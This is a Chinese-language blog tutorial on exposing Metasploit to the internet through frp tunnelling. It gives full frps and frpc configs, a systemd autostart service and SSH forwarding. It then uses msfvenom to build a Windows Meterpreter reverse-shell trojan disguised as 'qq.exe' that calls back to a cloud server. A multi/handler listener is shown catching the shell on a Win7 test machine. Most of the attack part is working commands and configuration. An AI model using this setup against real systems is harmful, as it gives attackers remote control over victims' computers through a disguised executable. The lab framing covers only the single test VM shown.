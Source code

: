 ```yaml
---
title: frp 搭建公网 Metasploit
date: 2022-4-18 20:18:36
tags: [Trojan horse,Linux,Kali,Metasploit,frp]
categories: 
 - [Cyber Security,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


## 准备
- **frps** 部署机。
	- 要求：拥有 **公网IP** （例如 **VPS**、云服务器等等）
	- 本文选用 **Ubuntu 18.04.6** 云服务器
- **frpc** 客户机。
	- 要求：能访问互联网
	- 本文选用 **Kali Linux 2022** 虚拟机
- **frp** 的 **Github** 项目地址：[fatedier/frp](https://github.com/fatedier/frp)
## frps（云服务器）
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) ：
![image-20230426011312770](https://res.cloudinary.com/sycamore/image/upload/v1682442796/Typera/2023/04/65c0edabf7c4cf7b431c9f10ff94bc05.png)

1. 在 **云服务器** 终端上下载：`wget https://github.com/fatedier/frp/releases/download/v0.41.0/frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011322302](https://res.cloudinary.com/sycamore/image/upload/v1682442806/Typera/2023/04/d8b546285137f60d42fef4a27a06d821.png)
2. **解压缩** 下载的文件：`tar -zxvf frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011327257](https://res.cloudinary.com/sycamore/image/upload/v1682442811/Typera/2023/04/4063a698f14734b0fb54a92974122ba5.png)
3. **进入** 解压缩的文件夹：`cd frp_0.41.0_linux_amd64/`
4. 因为配置的是 **frps** ，可以 **删除** 文件夹内的 **frpc** 相关文件，防止后续修改出错：**`rm -rf frpc*`**
![image-20230426011332064](https://res.cloudinary.com/sycamore/image/upload/v1682442816/Typera/2023/04/f776553aeca109b5eef6a7e0d3d6bacd.png)
### 编写 frps 配置文件
`vim frps.ini`
内容如下：
（不想要**监控页面**的话，删除对应配置所在 **行** 即可）
```
[common]
bind_port = 7777          # frps和frpc的通讯端口
dashboard_port = 9999     # web监控页面的端口
dashboard_user = Sycamore # 登录监控页面的用户名
dashboard_pwd = 123456    # 登录监控页面的密码
```
如图所示：
![image-20230426011338410](https://res.cloudinary.com/sycamore/image/upload/v1682442822/Typera/2023/04/02f8cca9459920e2f031c95fec4c172e.png)
（需要 **云服务器** 打开 **对应端口**：7777、9999)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frps -c frps.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 后台运行：`nohup ./frps -c frps.ini >/dev/null 2>&1 &`
	- 因为通常不会 **关闭云服务器**，所以 **后台运行** 就足够了；
	- 当然也可以 **开启自启动**，详情见 **frpc** 的内容，对应命令改个符号就行 ~

## frpc（Kali 虚拟机）
![image-20230426011342973](https://res.cloudinary.com/sycamore/image/upload/v1682442827/Typera/2023/04/692976286e5ddec8cd744326a1c3a54d.png)
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) 

步骤与 **frps** 的几乎**相同**，**区别** 是：
- 对象变成了 **Kali 虚拟机**，而不是 云服务器
- 以及最后一步 **删除的是 frps**：
	4. 因为配置的是 **frpc** ，可以 **删除** 文件夹内的 **frps** 相关文件，防止后续修改出错：**`rm -rf frps*`**

### 编写 frpc 配置文件
作为一款 **内网穿透** 工具，**frp** 穿透了内网之后，还需要使用 **其他手段**（**ssh**）
和外网建立交互，所以 **配置文件** 中会存在 **[ssh]** 配置。

`vim frpc.ini`
内容如下：
```
[common]
server_addr = 106.15.52.194
server_port = 7777

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6666
use_compression = true
```
相关 **解释** 如图：
![image-20230426011350366](https://res.cloudinary.com/sycamore/image/upload/v1682442834/Typera/2023/04/2144e375ff1aca162bb41868d050259f.png)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frpc -c frpc.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 开机自启动：
	- 服务目录 **新建并编辑** 文件：`vim /lib/systemd/system/frp.service`
	- 填入以下内容：
		```
		[Unit]
		Description=Frp Client Service
		After=network.target remote-fs.target nss-lookup.target
		Wants=network.target
		
		[Service]
		Type=simple
		ExecStart=/root/frp/frpc -c /root/frp/frpc.ini
		Restart=always
		RestartSec=20s
		
		[Install]
		WantedBy=multi-user.target
		```
	- 启动 **frpc** 服务：`systemctl start frp`
	（最后的 `frp` 名称取决于上一步新建的文件名 `frp.service`）
	- 打开 **frpc** 服务自启动 `systemctl enable frp`
		**[注意]：**
		- 如果要重启应用：`systemctl restart frp`
		- 如果要停止应用：`systemctl stop frp`
		- 如果要查看 **frpc** 的日志：`systemctl status frp`
		- 权限不够，记得加 `sudo`

**服务文件** 重要内容注释 如下图：
![image-20230426011356634](https://res.cloudinary.com/sycamore/image/upload/v1682442841/Typera/2023/04/6e79855b87a38703bd5b740419dc6e65.png)

## SSH 连接测试
- 命令行 `ssh root@x.x.x.x -p 6666`
（**root** 用户登录到 **云服务器x.x.x.x** 的 **6666** 端口）
![](https://res.cloudinary.com/sycamore/image/upload/v1682442846/Typera/2023/04/52501488b9125c9518e2190783a8fcf4.png)
- Xshell 创建新会话，具体内容如下：
![image-20230426011410382](https://res.cloudinary.com/sycamore/image/upload/v1682442854/Typera/2023/04/891e33c279efacbf48adee134034f971.png)![image-20230426011417120](https://res.cloudinary.com/sycamore/image/upload/v1682442861/Typera/2023/04/fe85e7d6d6e0e5955c77ff87a4ea5abe.png)
<br>
**Xshell  连接成功**：
![image-20230426011424294](https://res.cloudinary.com/sycamore/image/upload/v1682442869/Typera/2023/04/7eed7e40069de144ddcfb74725077325.png)
## msf 渗透攻击测试
双击打开 刚刚建立的 **Xshell 新会话**（ frp ）.
### frpc 添加新配置
输入命令：`vim frpc.ini`，编辑 **frpc** 配制文件，
在文件末尾 **添加**：
```
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 2333 
```
配置内容的 **含义** 与 **[ssh]** 类似，解释如图：
![image-20230426011431000](https://res.cloudinary.com/sycamore/image/upload/v1682442874/Typera/2023/04/75402a4aa7e5b6970ffb51313c0a847f.png)

### msf 生成木马
与连接 **本地的 shell** 生成木马不同，
因为我们要使用 **frp 穿透内网** 连接的 shell ，去 **监听木马反弹**的 shell，
所以我们 **生成木马** 时，设置的 LHOST、LPORT 应当是 **云服务器** 的对应数据。
（直接用内网测试的时候，LHOST、LPORT 填的是 **本地虚拟机** 的相关数据）

用 **msf** 生成 **windows** 系统的 **反向shell** 木马：
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=2333 -f exe > qq.exe`
![image-20230426011437323](https://res.cloudinary.com/sycamore/image/upload/v1682442881/Typera/2023/04/f72e4363a982738b25b5976722ab8948.png)
成功生成木马文件：**qq.exe**

### msf 监听反弹的 shell
> （确定 frps 、frpc 服务均已在后台运行）
> （事先上传 qq.exe 到测试的靶机，本文用 	Win7_x64 虚拟机替代）

> 关于**上传**：Kali 虚拟机 开启 **Apache2** 服务，Win7_x64 虚拟机 内网访问下载：
> ![](https://res.cloudinary.com/sycamore/image/upload/v1682442886/Typera/2023/04/79c8bcdd330dc38041cee9fa333d9bb8.png)

1. `msfconsole`
	- 打开 **msf**
2. `use exploit/multi/handler`
	- 选择使用的 exploit
3. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	- 设置 PAYLOAD （生成木马时使用的）
4. `set LHOST 127.0.0.1`
	- 设置 LHOST 为本地 IP
5. `set LPORT 4444`
	- 设置 LPORT 为转发的本地端口 4444
6. run
	- 开始监听

> （先让 **msf** 开始监听，再双击运行上传的木马文件）

演示如图所示：
- 双击 **运行木马**：
![image-20230426011447735](https://res.cloudinary.com/sycamore/image/upload/v1682442892/Typera/2023/04/553d087d53826c0f6f0bc2edf848b2b0.png)
<br>
- msf **开始监听** & 成功获得 meterpreter **shell**：
![image-20230426011457351](https://res.cloudinary.com/sycamore/image/upload/v1682442902/Typera/2023/04/204ea56873200eb9b2507252955adb2a.png)
